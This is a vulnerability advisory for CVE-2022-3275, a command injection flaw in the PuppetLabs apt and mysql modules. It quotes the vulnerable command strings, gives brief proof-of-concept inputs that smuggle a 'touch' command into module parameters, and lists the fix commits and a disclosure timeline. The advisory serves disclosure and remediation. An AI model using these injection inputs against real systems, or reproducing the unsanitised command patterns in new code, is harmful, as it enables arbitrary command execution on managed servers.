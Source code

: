 ```yaml
---
title: 'Puppetlabs: Command injection via module arguments'
severity: High
ghsa_id: GHSA-9jvw-qr6w-9wvc
cve_id: CVE-2022-3275
weaknesses: []
products:
- ecosystem: Puppetlabs
  package_name: Enterprise
  affected_versions: '2017.3'
  patched_versions: ''
cvss: null
credits:
- github_user_id: koczkatamas
  name: Tamás Koczka
  avatar: https://avatars.githubusercontent.com/u/2608082?s=40&v=4
---
```


## Summary
Running interpreted shell commands without sanitation allows command line injection in multiple PuppetLabs modules via module arguments.

## Severity
High - Insufficient data validation allows command injection in multiple modules.

## Proof of Concepts

### [puppetlabs-apt/manifests/ppa.pp:86](https://github.com/puppetlabs/puppetlabs-apt/blob/b33313fd5d58de39e84fc242a122b5b652732f14/manifests/ppa.pp#L86)

```
command => "/usr/bin/add-apt-repository ${options} ${name} || (rm ${::apt::sources_list_d}/${sources_list_d_filename} && false)",
```

PoC injection via the `name` variable:
```
include apt
apt::ppa { 'ppa:x||touch INJECTION2||': }
```

The issue was reproduced by putting the PoC into `test.pp` and running `puppet apply --debug test.pp` and verifying that a file called `INJECTION2` was created.

PoC injection via the `options` variable:
```
include apt
apt::ppa { 'ppa:x': options => '||touch INJECTION||' }
```

### [puppetlabs-apt/manifests/mark.pp](https://github.com/puppetlabs/puppetlabs-apt/blob/main/manifests/mark.pp)

```
PoC: apt::mark { 'x;touch INJECTION3': setting => auto }
```

### [puppetlabs-mysql/manifests/db.pp:103](https://github.com/puppetlabs/puppetlabs-mysql/blob/4441ed5c02763ffa8557f5f5a6aa5686d143454b/manifests/db.pp#L103)

* Code: `command => "${import_cat_cmd} ${sql_inputs} | mysql ${dbname}"`
* Affected parameters: `$sql`, `$dbname` (defaults to `$name`) -- note: also `import_cat_cmd` but that is probably intended

### [puppetlabs-mysql/manifests/server/config.pp](https://github.com/puppetlabs/puppetlabs-mysql/blob/4441ed5c02763ffa8557f5f5a6aa5686d143454b/manifests/server/config.pp#L44)
```
mysql::server::options["mysqld"]["tmpdir"] = "||touch INJECTION||" (not verified)
```

### [puppetlabs-mysql/manifests/server/root_password.pp:32](https://github.com/puppetlabs/puppetlabs-mysql/blob/4441ed5c02763ffa8557f5f5a6aa5686d143454b/manifests/server/root_password.pp#L32)
```
mysql::server::install_secret_file
```
### [puppetlabs-mysql/manifests/server/service.pp:57](https://github.com/puppetlabs/puppetlabs-mysql/blob/4441ed5c02763ffa8557f5f5a6aa5686d143454b/manifests/server/service.pp#L57)
```
mysql::server::options["mysqld"]["socket"]
```

## Further Analysis
Remediation Guidelines:
#1 https://github.com/puppetlabs/puppetlabs-apt/commit/c26ad2a54f318b4d6fbe55f837b00cd6afd9f1eb - Aug 18
#2 https://github.com/puppetlabs/puppetlabs-apt/commit/eed10ea359d0fe144da90a8425cd14dc3c6c8f18 - Aug 12
#3 https://github.com/puppetlabs/puppetlabs-mysql/commit/547483f3816e7d8b0975992073e003feea8833ef - Aug 22
#4 https://github.com/puppetlabs/puppetlabs-mysql/commit/1c1291d27883fc41eab666eb65f3c85071d6c696 - Aug 22
#5 https://github.com/puppetlabs/puppetlabs-mysql/commit/90168d93834f329ca037f83bedc5b5e580955fb6 - Aug 23
#6 https://github.com/puppetlabs/puppetlabs-mysql/commit/cdaa8393e3fe9b8f971945ee8cb1f3e933902a0d - Aug 19

## Timeline
**Date reported**: 08/08/2022
**Date fixed**: 08/23/2022
**Date disclosed**: 10/06/2022
